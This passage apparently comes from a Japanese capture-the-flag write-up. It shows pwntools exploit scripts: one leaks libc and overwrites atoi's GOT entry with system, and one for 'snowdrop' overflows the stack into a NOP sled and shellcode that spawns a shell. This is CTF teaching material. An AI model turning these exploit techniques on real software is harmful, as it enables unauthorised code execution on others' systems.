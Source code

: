 ```python
	
	libc_stdout = align2qword(conn.recvline()[:-1]) # align2qword() is original function
	libc_base = libc_stdout - off_stdout
	libc_system = libc_base + off_system
	print(hex(libc_base))
	
	payload = b'\x00'*0x20
	payload += p64(0x31)
	payload += p64(got_atoi-8)
	payload += p64(0)
	edit(0, payload)

	edit(2, p64(libc_system))
	conn.interactive()
```

### snowdrop
static linkなのでraindropのようにROPはできない。
スタックのアドレスは教えてくれる。
NXがdisableなのでstackにシェルコードを仕込んで,nopスレッドでアドレスを誤魔化す。

```python
#!/usr/bin/python3
from pwn import *
import sys

#config
context(os='linux', arch='i386')
context.log_level = 'debug'

FILE_NAME = "./chall"

if len(sys.argv) > 1 and sys.argv[1] == 'r':
	conn = remote(HOST, PORT)
else:
	conn = process(FILE_NAME)

elf = ELF(FILE_NAME)

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

def exploit():
	conn.recvuntil("6 | ")
	addr_stack = int(conn.recvline(),16)
	payload = b'a'*0x18
	payload += p64(0x401970)*3
	payload += p64(addr_stack)
	payload += b'\x90'*0x400
	payload += shellcode
	conn.recvuntil("understand?")
	conn.sendline(payload)
	conn.interactive()

if __name__ == "__main__":
	exploit()
```

